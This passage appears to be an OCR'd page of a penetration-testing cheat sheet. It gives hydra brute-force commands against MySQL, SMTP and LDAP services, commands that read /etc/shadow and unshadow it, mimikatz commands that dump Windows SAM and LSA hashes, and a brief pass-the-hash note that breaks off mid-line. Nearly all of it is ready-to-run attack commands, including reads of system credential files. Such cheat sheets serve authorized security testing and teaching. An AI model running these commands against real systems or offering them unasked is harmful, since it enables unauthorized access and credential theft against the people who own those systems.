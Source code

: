 ```
hydra -L users.txt -P /path/to/known/passwords.txt -vV mysql://10.0.0.1
hydra -L users.txt -e nsr -vV mysql://10.0.0.1
hydra -l bob -P /path/to/passwords.txt -vV mysql://10.0.0.1
```

## SMTP
  *  `hydra` for SMTP bruteforcing
     *  First check if auth is even required

```
hydra -L users.txt -P /path/to/known/passwords.txt -vV smtp://10.0.0.1
hydra -L users.txt -e nsr -vV smtp://10.0.0.1
hydra -l bob -P /path/to/passwords.txt -vV smtp://10.0.0.1
```

## LDAP
  *  Check for null/anonymous access first
  *  `hydra` for LDAP bruteforcing
      *  Match expected LDAP version number

```
hydra -L users.txt -P /path/to/known/passwords.txt -vV ldap3://10.0.0.1
hydra -L users.txt -e nsr -vV ldap3://10.0.0.1
hydra -l bob -P /path/to/passwords.txt -vV ldap3://10.0.0.1
```

## Linux hash dumping
  *  Linux hashes are stored in `/etc/shadow`
      *  Copy or combine with `/etc/passwd` using `unshadow`

```
cat /etc/shadow
unshadow /etc/passwd /etc/shadow > target-hashes.txt
```

## Windows hash dumping
  *  Windows hashes are stored in Security Account Manager (**SAM**)
      *  `NTDS.dit` on a domain controller
  *  `mimikatz` for dumping hashes from memory

```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
mimikatz # lsadump::lsa /patch
```

## Pass the hash
  *  Some authentication mechanisms only rely on the hash of the user's password
      *  Meaning the actual password is not required, only the hash is needed
      *  Hashes dumped from a domain machine can often be used without cracking
  *  Many tools can make use of NT hashes for authentication `GTS`
